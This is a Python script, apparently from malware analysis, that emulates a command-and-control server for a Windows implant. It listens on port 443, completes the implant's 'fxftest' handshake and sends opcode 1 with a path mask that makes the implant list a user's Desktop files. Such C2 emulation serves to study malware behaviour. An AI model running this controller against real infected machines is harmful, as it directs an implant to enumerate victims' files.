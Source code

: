 #!/usr/bin/env python3
import socket, binascii, datetime, struct

HOST = ''            # 0.0.0.0
PORT = 443
RECV_SZ = 65535
TIMEOUT_S = 120
OPCODE = 1

# Ruta/máscara que enviaremos para el opcode 1 (NUL-terminada + padding a 256 bytes)
LIST_PATTERN = r"C:\Users\usuario\Desktop\*"

MAGIC_PARAM_REQ = b'v\x16od\x11og\x0fofv'   # cabecera que vemos antes de los 0x55

def hexdump(b: bytes) -> str:
    hx = binascii.hexlify(b).decode()
    return ' '.join(hx[i:i+2] for i in range(0, len(hx), 2))

def make_handshake_reply() -> bytes:
    return b"fxftest\x00"  # 8 bytes; compara sólo 7

def make_command_packet(opcode: int) -> bytes:
    # 0x104 bytes: [DWORD opcode LE] + relleno cero
    pkt = struct.pack("<I", opcode)
    return pkt + b"\x00" * (0x104 - len(pkt))

def make_param_block(path_mask: str) -> bytes:
    # 256 bytes: cadena ASCII NUL-terminada + padding con 0x00
    pb = path_mask.encode('ascii', errors='ignore') + b'\x00'
    if len(pb) > 256:
        pb = pb[:256]                    # se trunca si fuese demasiado larga
        if pb[-1] != 0:
            pb = pb[:-1] + b'\x00'
    return pb + b'\x00' * (256 - len(pb))

def looks_like_param_prompt(b: bytes) -> bool:
    # Suele ser exactamente 256 bytes, empieza por la magic y va seguido de muchos 0x55 ('U')
    if len(b) != 256:
        return False
    if b.startswith(MAGIC_PARAM_REQ):
        return True
    # Heurística alternativa: gran cantidad de 'U'
    return b.count(0x55) > 100

def handle_client(c: socket.socket, addr):
    ts = datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S')
    print(f'\n[+] {ts} Connection from {addr[0]}:{addr[1]}')
    state = "WAIT_HELLO"   # -> WAIT_SYSINFO -> ACTIVE
    try:
        c.settimeout(TIMEOUT_S)
        while True:
            try:
                data = c.recv(RECV_SZ)
            except socket.timeout:
                print('    [*] idle timeout; keeping connection open...')
                continue

            if not data:
                print('    [*] Client closed connection.')
                break

            print(f'    [*] Received ({len(data)} bytes):')
            print(f'        ASCII: {data!r}')
            print(f'        HEX  : {hexdump(data)}')

            # 1) HELLO
            if state == "WAIT_HELLO" and b'fxftest' in data:
                resp = make_handshake_reply()
                c.sendall(resp)
                print(f'    [*] Sent handshake ({len(resp)} bytes)')
                state = "WAIT_SYSINFO"
                continue

            # 2) SYSINFO (512 bytes)
            if state == "WAIT_SYSINFO":
                if len(data) >= 512:
                    cmd = make_command_packet(OPCODE)
                    c.sendall(cmd)
                    print(f'    [*] Sent command ({len(cmd)} bytes), opcode={OPCODE}')
                    state = "ACTIVE"
                continue

            # 3) ACTIVE (opcode 1): el implante pide la ruta/máscara en un bloque de 256 bytes
            if state == "ACTIVE":
                if looks_like_param_prompt(data):
                    param = make_param_block(LIST_PATTERN)
                    c.sendall(param)
                    print(f'    [*] Sent opcode-1 param block (256 bytes) with path: {LIST_PATTERN!r}')
                    # Después de esto, el implante debería empezar a enviar los entries del directorio.
                    continue

                # Cualquier otro tráfico, solo lo mostramos
                continue

    except Exception as e:
        print(f'    [!] Error: {e}')
    finally:
        try:
            c.shutdown(socket.SHUT_RDWR)
        except Exception:
            pass
        c.close()
        print('    [*] Connection closed.')

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen(5)
    print(f'[*] Listening on 0.0.0.0:{PORT}')
    try:
        while True:
            c, addr = s.accept()
            handle_client(c, addr)
    except KeyboardInterrupt:
        print('\n[!] Interrupted, shutting down.')
    finally:
        s.close()

if __name__ == "__main__":
    main()
